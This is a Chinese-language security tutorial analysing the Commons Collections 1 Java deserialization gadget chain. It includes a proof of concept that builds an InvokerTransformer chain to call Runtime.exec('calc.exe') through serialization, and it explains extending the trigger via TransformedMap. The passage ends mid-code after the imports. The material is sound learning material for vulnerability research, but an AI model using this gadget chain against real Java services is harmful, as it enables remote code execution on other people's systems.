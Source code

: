 ```java
package com.myproject;
import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.util.HashMap;
import java.util.Map;

public class test {

    public static void main(String[] args) throws Exception {

        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod",new Class[]{String.class, Class[].class},new Object[]{"getRuntime",new Class[0]}),
                new InvokerTransformer("invoke",new Class[]{Object.class,Object[].class},new Object[]{null,new Object[0]}),
                new InvokerTransformer("exec",new Class[]{String.class},new Object[]{"calc.exe"})
        };
        Transformer transformerChain = new ChainedTransformer(transformers);
        FileOutputStream fileOutputStream = new FileOutputStream("payload.ser");
        ObjectOutputStream objectOutputStream = new ObjectOutputStream(fileOutputStream);
        objectOutputStream.writeObject(transformerChain);
        FileInputStream fileInputStream = new FileInputStream("payload.ser");
        ObjectInputStream objectInputStream = new ObjectInputStream(fileInputStream);
        Transformer transformer = (ChainedTransformer) objectInputStream.readObject();
        transformer.transform(null);
    }
}
```

![image.png](./Commons Collections1 分析利用.assets/2023_05_19_10_37_45_VGiQJ0T7.png)

完成命令执行服务端执行如下操作：

1. 服务端反序列化我们的输入成**ChainedTransformer**类型
2. 调用这个输入的transform()函数

转变的类型是一个数据转化链数据格式，很明显服务端不可能存在这种代码，利用价值不足，接下来我们需要继续延长这个漏洞链。
#### 封装成Map
由于我们得到的是ChainedTransformer，一个转换链，**TransformedMap**类提供将map和转换链绑定的构造函数，只需要添加数据至map中就会自动调用这个转换链执行payload。
这样我们就可以把触发条件从显性的调用**转换链的transform函数**延伸到**修改map的值**。很明显后者是一个常规操作，极有可能被触发
**TransformedMap**
```java
public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
    return new TransformedMap(map, keyTransformer, valueTransformer);
}
```
```java
package com.myproject;

import org.apache.commons.collections.*;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;

import java.io.*;
import java.util.HashMap;
```